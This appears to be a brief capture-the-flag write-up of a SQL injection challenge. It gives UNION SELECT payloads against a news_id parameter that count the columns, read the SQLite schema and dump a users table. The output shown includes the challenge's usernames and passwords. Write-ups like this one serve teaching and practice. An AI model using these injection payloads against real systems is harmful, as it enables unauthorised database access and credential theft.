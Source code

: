 Payload `GET /web-serveur/ch18/?action=news&news_id=1+union+select+null,null,null--` indicate that there are 3 collums in the current table.
```
GET /web-serveur/ch18/?action=news&news_id=1+union+select+null,sql,name+from+sqlite_master--
```
return 
```
CREATE TABLE news(id INTEGER, title TEXT, description TEXT)
news

CREATE TABLE users(username TEXT, password TEXT, Year INTEGER)
users
```

Now I can extract the users table by the payload
```
GET /web-serveur/ch18/?action=news&news_id=1+union+select+null,username,password+from+users--
```
```
admin
aTlkJYLjcbLmue3

user1
vUrpgAsCTX

user2
aFjRKx7j9d
```